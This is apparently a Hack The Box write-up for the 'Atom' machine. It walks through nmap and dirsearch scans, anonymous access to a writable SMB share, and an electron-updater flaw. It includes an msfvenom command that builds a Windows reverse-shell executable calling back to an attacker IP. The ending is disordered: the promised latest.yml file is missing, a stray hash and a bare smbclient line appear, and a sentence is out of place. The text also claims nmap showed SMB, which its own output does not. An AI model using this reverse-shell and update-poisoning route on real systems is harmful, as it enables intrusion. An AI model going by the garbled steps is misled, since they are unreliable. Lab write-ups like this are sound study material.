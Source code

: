
![Image Atom]()


## ------------->> Atom <<--------------

// We start with nmap scan

    $ nmap -sV -A -Pn -T4 10.10.10.237 -p-
-------

    Nmap scan report for 10.10.10.237
    Host is up (0.17s latency).
    Not shown: 65529 filtered tcp ports (no-response)
    PORT     STATE SERVICE    VERSION
    80/tcp   open  http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    |_http-title: Heed Solutions
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    135/tcp  open  msrpc      Microsoft Windows RPC
    443/tcp  open  ssl/http   Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
    | http-methods: 
    |_  Potentially risky methods: TRACE
    |_http-title: Heed Solutions
    | ssl-cert: Subject: commonName=localhost
    | Not valid before: 2009-11-10T23:48:47
    |_Not valid after:  2019-11-08T23:48:47
    |_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
    |_ssl-date: TLS randomness does not represent time
    | tls-alpn: 
    |_  http/1.1
    5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    |_http-title: Not Found
    |_http-server-header: Microsoft-HTTPAPI/2.0
    6379/tcp open  redis      Redis key-value store
    7680/tcp open  tcpwrapped
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

// Navigating to http://10.10.10.237/ present us with software product website

![Image 1]()

// Lets search for interesting directories or files with [dirsearch]()(By ).

    $ python3 dirsearch.py -u http://10.10.10.237/ -t 100
-------

      _|. _ _  _  _  _ _|_    v0.4.1
     (_||| _) (/_(_|| (_| )

    Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 100 | Wordlist size: 10903

    Output File: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/reports/10.10.10.237/_21-09-10_17-04-26.txt

    Error Log: /home/r4r3/Desktop/HTB/main-Tools/web/directories_scanners/dirsearch/logs/errors-21-09-10_17-04-26.log

    Target: http://10.10.10.237/

    ...
    [17:04:35] 403 -  302B  - /Trace.axd::$DATA
    [17:04:41] 403 -  302B  - /cgi-bin/
    [17:04:41] 500 -  636B  - /cgi-bin/printenv.pl
    [17:04:45] 301 -  338B  - /images  ->  http://10.10.10.237/images/
    [17:04:45] 200 -  984B  - /images/
    [17:04:45] 200 -    7KB - /index.html
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/CookieExample
    [17:04:46] 503 -  402B  - /examples/servlets/index.html
    [17:04:46] 503 -  402B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
    [17:04:46] 503 -  402B  - /examples/jsp/snp/snoop.jsp
    [17:04:46] 503 -  402B  - /examples
    [17:04:46] 503 -  402B  - /examples/servlets/servlet/RequestHeaderExample
    [17:04:46] 503 -  402B  - /examples/
    [17:04:46] 503 -  402B  - /examples/servlet/SnoopServlet
    [17:04:48] 403 -  302B  - /phpmyadmin/docs/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/ChangeLog
    [17:04:48] 403 -  302B  - /phpmyadmin/doc/html/index.html
    [17:04:48] 403 -  302B  - /phpmyadmin/README
    [17:04:48] 403 -  302B  - /phpmyadmin
    [17:04:48] 403 -  302B  - /phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/phpmyadmin/index.php
    [17:04:49] 403 -  302B  - /phpmyadmin/
    [17:04:49] 403 -  302B  - /phpmyadmin/scripts/setup.php
    [17:04:50] 301 -  340B  - /releases  ->  http://10.10.10.237/releases/
    [17:04:50] 403 -  421B  - /server-status/
    [17:04:50] 403 -  421B  - /server-status
    [17:04:50] 403 -  421B  - /server-info
    [17:04:53] 403 -  302B  - /web.config::$DATA
    [17:04:53] 403 -  302B  - /webalizer

    Task Completed

// Nothing helping there... Move on!

// Earlier with nmap we see there SMB service open

// Lets check if it allows anonymous connection with smbmap

    $ smbmap -u anonymous -H 10.10.10.237
------
    
    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      ADMIN$                                            	NO ACCESS	Remote Admin
      C$                                                	NO ACCESS	Default share
      IPC$                                              	READ ONLY	Remote IPC
      Software_Updates                                  	READ, WRITE	

// It worked !, We can see that we have permission(READ, WRITE) only in directory Software_Updates

// Lets check it out

    $ smbmap -u anonymous -r Software_Updates -H 10.10.10.237
------

    [+] Guest session   	IP: 10.10.10.237:445	Name: 10.10.10.237                                      
            Disk                                                  	Permissions	Comment
      ----                                                  	-----------	-------
      Software_Updates                                  	READ, WRITE	
      .\Software_Updates\*
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	.
      dr--r--r--                0 Fri Sep 10 18:53:53 2021	..
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client1
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client2
      dr--r--r--                0 Fri Sep 10 18:49:49 2021	client3
      fr--r--r--            35202 Fri Apr  9 07:18:08 2021	UAT_Testing_Procedures.pdf

// after checking, client1,2,3 are empty so i downloaded 'UAT_Testing_Procedures.pdf' to see his content

    $ smbmap -u anonymous --download 'Software_Updates\UAT_Testing_Procedures.pdf' -H 10.10.10.237

![Image 2]()

// We can see that the pdf mantion electron-builder and that should be update-server

// After some digging [Electron builder](https://github.com/electron-userland/electron-builder) is:

    A complete solution to package and build a ready for distribution Electron, Proton Native app for macOS,
    Windows and Linux with “auto update” support out of the box.

// Digging some more found a vulnerability at electron-updater [here](https://snyk.io/test/npm/electron-updater/1.4.0)

![Image 3]()

// So lets try this, first we need to make .exe reverse shell, we will use msfvenom for that

    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=1444 -f exe > rev\'shell.exe
------

    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 324 bytes
    Final size of exe file: 73802 bytes

// Now we can make our 'latest.yml' file




$smbclient \\\\10.10.10.237\\Software_Updates -U anonymous

f486053b0ed2b8e4d46b3c056b9f8dcdb9bb5d7f7f51ed03ae2a90d307e3fcdb2da28233e27527637fe8ab1c85e1c81f2894c92953894a2f94262d557da62b65

// The website offer us to download an .exe that demonstrate their notes software

